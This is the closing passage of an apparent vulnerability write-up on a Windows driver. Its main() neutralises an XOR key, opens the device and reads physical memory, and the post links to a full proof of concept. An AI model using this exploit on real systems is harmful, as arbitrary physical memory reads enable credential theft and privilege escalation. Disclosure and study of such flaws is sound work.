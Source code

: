> If we send the XOR key made of zeros, we can skip the XOR calculation here.

### Gameover

Putting it all together, we get:

```c
int main()
{
    memset(xor_key, 0, sizeof(xor_key));

    if (!open_device()) 
    {
        return 1;
    }

    if (!send_xor_key())
    {
        return 1;
    }

    ULONG64 read = read_mem(0x40);

    std::cout << std::hex << read << std::endl;

    CloseHandle(hDevice);
    return 0;
}
```

#### Time to Test

{{< img src="21.jpg">}}
{{< img src="22.jpg">}}

Hooray! Everything works! We’ve successfully demonstrated a vulnerability for arbitrary reading of physical memory.

Thank you for reading; I hope you learned something new!

The complete PoC code is available on [GitHub](https://github.com/3a1/Argus-PoC).